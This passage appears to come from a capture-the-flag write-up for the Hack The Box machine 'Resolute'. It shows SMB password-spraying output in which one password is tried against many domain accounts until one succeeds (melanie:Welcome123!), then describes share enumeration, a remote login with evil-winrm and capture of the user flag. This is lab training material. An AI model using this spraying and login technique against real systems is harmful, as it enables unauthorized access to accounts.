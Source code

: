 ```ruby
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123!
``` 
Turned out the password was correct for user melanie **melanie:Welcome123!**

Using smbmap shares were listed but nothing interesting was found.


![](/images/smbmap.png)
Remote access was tried on the machine using the creds and it was successfull


![](/images/melanie_evilwinrm.png)

The user.txt flag


![](/images/user..png)
